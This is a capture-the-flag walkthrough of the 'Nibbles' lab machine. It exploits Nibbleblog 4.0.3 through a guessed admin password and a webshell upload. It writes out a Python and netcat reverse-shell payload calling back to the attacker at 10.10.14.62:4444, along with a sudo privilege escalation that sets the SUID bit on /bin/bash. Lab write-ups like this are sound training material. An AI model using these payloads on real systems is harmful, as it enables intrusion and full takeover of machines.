Machine: Nibbles

IP: 10.129.240.183

Ports: 22,80

```bash
nmap -v -A -T5 10.129.240.183 -oA Init_nmap
```
Result: [Init_nmap.nmap](Init_nmap.nmap)



nothing here, let's check the source code of the page



there is a comment in the source code that says
"/nibbleblog/ directory. Nothing interesting here!"

then use dirsearch to check the /nibbleblog/ directory


```bash
dirsearch -u http://10.129.240.183/nibbleblog/
```
Result:



it shows that some files are present in the /nibbleblog/ directory, such as admin.php, update.php, etc.


`http://10.129.240.183/nibbleblog/admin.php`



looks like a login page, check the update.php page

`http://10.129.240.183/nibbleblog/update.php`


it hints that the `/content/private/` path stores some files. And the version of Nibbleblog is 4.0.3, which is vulnerable to CVE-2015-6967. The exploitation method is Arbitrary File Upload.



this vulnerability requires username and password, so we need to find them first.


`http://10.129.240.183/nibbleblog/content/private/users.xml`



found the username, but no password.

seems we need to guess some common passwords. 




`admin:nibbles`

found that the password is "nibbles", which is the machine name.

then we create a webshell and upload it to the server using the exploit.




after uploading the webshell, we can access it through the URL and get a reverse shell.

webshell path: 
`http://10.129.240.183/nibbleblog/content/private/plugins/my_image/image.php`

 


```bash
curl 'http://10.129.240.183/nibbleblog/content/private/plugins/my_image/image.php?cmd=id'
```

Result:
 

successfully executed the `id` command on the target system.


```bash
┌──(kali㉿kali)-[~/HTB/nibbles]
└─$ echo "nc 10.10.14.62 4444 -e sh" |base64     
bmMgMTAuMTAuMTQuNjIgNDQ0NCAtZSBzaAo=

```

PAYLOAD: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.62",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`

URL: `10.129.240.183/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.62",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`


create a reverse shell listener on our machine and execute the webshell command to connect back to us.


## INIT SHELL



as picture shows, we got a reverse shell on the target machine.

### SHELL UPGRADE



```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
```
user.txt captured

## PRIVILEGE ESCALATION

we saw that there is a personal.zip file in the home directory, let's check it out.

```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

and we check `sudo -l` to see if there are any commands that can be run as root.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
booya! we can run the monitor.sh script as root without a password, let's check the content of the script.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 

```

don't need to check the content of the script, we can just edit it and add payload to it.

PAYLOAD: `chmod 4777 /bin/bash`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "chmod 4777 /bin/bash" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
```
we use chmod to set the SUID bit on /bin/bash, which allows us to execute it as root.

then we run the monitor.sh script using sudo.

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1037528 May 16  2017 /bin/bash
```
now we can execute /bin/bash to get a root shell.

```bash
nibbler@Nibbles:/home/nibbler$ /bin/bash -p 
bash-4.3# 
```
we are now root, we can read the root flag.

```bash
bash-4.3# cat /root/root.txt
```
